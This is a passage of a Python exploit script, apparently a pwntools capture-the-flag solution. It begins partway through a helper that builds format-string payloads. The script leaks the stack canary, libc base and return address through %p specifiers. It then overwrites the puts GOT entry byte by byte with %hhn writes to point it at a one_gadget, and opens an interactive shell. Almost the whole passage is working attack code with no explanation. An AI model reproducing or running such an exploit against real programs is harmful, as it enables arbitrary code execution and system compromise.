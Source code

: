 ```python
        num = value
        return payload
    else:
        n = 256-num + value
        num = value
        return '%' + str(n) + 'c' + target


num = 73
payload = 'startLeak:%39$p:%41$p:%43$p:%69$p'
payload += get_fmt_payload(0x46, '%32$hhn')
payload += get_fmt_payload(0x06, '%33$hhn')
payload += get_fmt_payload(0x40, '%34$hhn')
payload += '%10000c'
payload = payload.ljust(0xd0, '\x00')
payload += p64(puts)
payload += p64(puts+0x1)
payload += p64(puts+0x2)

r.sendline(payload)
r.recvuntil('startLeak:')

canary = int(r.recvuntil(':')[:-1], 16)
libc = int(r.recvuntil(':')[:-1], 16) - start_main_offset
ret_addr = int(r.recvuntil(':')[:-1], 16) - 0xe0
print('libc:', hex(libc))
print('canary:', hex(canary))
print('ret_addr:', hex(ret_addr))


gadget = libc+one_gadget

print('gadget:', hex(gadget))
num = 0
payload = get_fmt_payload(gadget&0xff, '%32$hhn')
gadget = gadget >> 8
payload += get_fmt_payload(gadget&0xff, '%33$hhn')
gadget = gadget >> 8
payload += get_fmt_payload(gadget&0xff, '%34$hhn')
gadget = gadget >> 8
payload += get_fmt_payload(gadget&0xff, '%35$hhn')
gadget = gadget >> 8
payload += get_fmt_payload(gadget&0xff, '%36$hhn')
gadget = gadget >> 8
payload += get_fmt_payload(gadget&0xff, '%37$hhn')
gadget = gadget >> 8

payload = payload.ljust(0xd0, '\x00')
payload += p64(puts)
payload += p64(puts+0x1)
payload += p64(puts+0x2)
payload += p64(puts+0x3)
payload += p64(puts+0x4)
payload += p64(puts+0x5)
payload += p64(puts+0x6)

r.sendline(payload)

r.interactive()
```

---